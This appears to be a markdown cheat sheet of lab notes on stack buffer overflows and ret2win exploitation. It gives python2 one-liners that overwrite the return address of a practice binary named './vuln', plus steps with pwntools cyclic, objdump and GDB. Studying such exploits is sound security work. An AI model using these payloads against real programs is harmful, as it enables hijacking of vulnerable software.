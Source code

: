 # Stack Based Buffer Overflows

## Basics

Look for dangerous methods such as "gets()"  
- These do not check the length of the input and simply retreive all that is given  

## Passing Input

If input is retreived after the program has started:  

```bash
python2 -c 'print("A"*64 + "\x9d\x06\x40\x00\x00\x00\x00\x00")' | ./vuln
```

If the input needs to be provided as a commandline arg, place it in backticks (\`):  

```bash
./vuln `python2 -c 'print("A"*64 + "\x9d\x06\x40\x00\x00\x00\x00\x00")'`
```

## Environment Variables

If environment variables are pulled into the binary, you can set variables to print shellcode  

```bash
export EnvVar=`python2 -c 'print("A"*64 + "\xef\xbe\xad\xde")'`
./vuln
```

## RET2WIN (w/out ASLR or PIE)

1. Find the number of chars to overwrite the return address

```bash
# sudo apt install python3-pwntools
cyclic 100
```

2. Supply the above output to the appropriate input
3. In a debugger or from the terminal output, take the supplied return address, convert it to ascii and reverse it
4. Supply this value back to `cyclic`

```bash
cyclic -l waaa
```

5. Use `objdump` or a debugger to find the WIN address

```bash
objdump -d vuln
# or in GDB
i functions
```

6. Send the payload

```bash
python2 -c 'print("A"*88 + "\xef\xbe\xad\xde")' | ./vuln
```















